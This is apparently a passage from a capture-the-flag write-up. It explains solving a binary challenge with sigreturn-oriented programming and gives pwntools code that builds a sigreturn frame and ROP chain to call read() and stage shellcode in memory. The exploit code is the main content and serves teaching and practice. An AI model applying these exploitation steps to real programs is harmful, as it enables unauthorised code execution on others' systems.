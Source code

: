 I did a bit of bruteforcing with `rax` to see what syscalls would be useful in editing registers. Eventually, I found that syscall number `0xf` will interestingly clobber most registers with values off the stack:

![](image-20210124110010250.png)

Syscall 15 is the `sys_rt_sigreturn` syscall, and that means that this challenge is meant to be solved with [SigReturn Oriented Programming](https://docs.pwntools.com/en/latest/rop/srop.html). If you're not familiar with SROP, consider it as a magic instruction that allows you to set any register to any value you want.

In this case, I'll edit `rax`, `rdi`, `rsi`, `rdx`, and `rip` to make a `read(0, 0x410??, 999)` call, allowing me to write shellcode to a known location in memory.

```python
# After SigRet, call read(0, rip+2, 0x500).
frame = SigreturnFrame()
frame.rax = constants.SYS_read
frame.rdi = 0
frame.rsi = context.binary.symbols['syscall'] + 2 # the first instr after syscall
frame.rdx = 0x500
frame.rip = context.binary.symbols['syscall']
```

 I'll also have `rsp` set to an r/w location in memory, so that `read()` doesn't crash:

```python
frame.rsp = context.binary.symbols['_start'] + 0xff0    # read() needs a stack
```

In order to put this `SigreturnFrame()` into action, we'll use basic ROP to set `rax` && execute `sys_rt_sigreturn`:

```python
R = ROP(context.binary)
R.raw(0)    # because `sub rsi, 8`
R.rax = constants.SYS_rt_sigreturn	# This is a pwntools-dev feature! Don't expect it to work on your current installation
R.call(frame.rip)
R.raw(bytes(frame))
r.send(R.chain())
```
